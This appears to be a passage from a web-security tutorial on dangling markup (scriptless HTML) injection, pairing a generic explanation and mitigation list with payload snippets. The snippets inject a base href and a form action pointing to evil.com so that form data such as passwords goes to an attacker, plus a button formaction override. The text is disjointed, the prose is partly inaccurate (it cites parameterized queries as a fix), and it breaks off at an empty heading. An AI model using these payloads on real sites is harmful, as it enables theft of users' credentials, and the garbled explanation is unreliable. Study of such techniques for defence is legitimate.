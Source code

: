#### What is Dangling Markup HTML Scriptless Injection?

Dangling Markup HTML Scriptless Injection is a type of vulnerability that occurs when a web application fails to properly sanitize user input. This allows an attacker to inject malicious code into the application, which can then be executed by unsuspecting users.

#### How does it work?

The process of stealing forms using Dangling Markup HTML Scriptless Injection involves the following steps:

1. Identify the vulnerable web application: The first step is to identify a web application that is vulnerable to Dangling Markup HTML Scriptless Injection. This can be done by conducting a thorough analysis of the application's code and input validation mechanisms.

2. Inject malicious code: Once a vulnerable application is identified, the attacker can inject malicious code into the application. This code is typically injected into user input fields, such as login forms or contact forms.

3. Exploit the vulnerability: When a user interacts with the injected code, it triggers the vulnerability and allows the attacker to steal sensitive information. This can include usernames, passwords, credit card numbers, or any other data entered into the form.

4. Collect the stolen information: Finally, the attacker collects the stolen information and can use it for malicious purposes, such as identity theft or financial fraud.

#### Mitigation

To protect against Dangling Markup HTML Scriptless Injection and prevent the stealing of forms, web application developers should follow these best practices:

- Implement proper input validation: All user input should be properly validated and sanitized to prevent the execution of malicious code.

- Use secure coding practices: Developers should follow secure coding practices, such as using parameterized queries and prepared statements, to prevent code injection attacks.

- Regularly update and patch software: Keeping web applications and frameworks up to date with the latest security patches can help prevent vulnerabilities.

- Educate users: Users should be educated about the risks of interacting with untrusted websites and should be cautious when entering sensitive information online.

By following these best practices, web application developers can significantly reduce the risk of Dangling Markup HTML Scriptless Injection and protect user data from being stolen.
```html
<base href='http://evil.com/'>
```
### Stealing forms 2

Set a form header: `<form action='http://evil.com/log_steal'>` this will overwrite the next form header and all the data from the form will be sent to the attacker.

### Stealing forms 3

The button can change the URL where the information of the form is going to be sent with the attribute "formaction":
```html
<button name=xss type=submit formaction='https://google.com'>I get consumed!
```
### Stealing clear text secrets 2
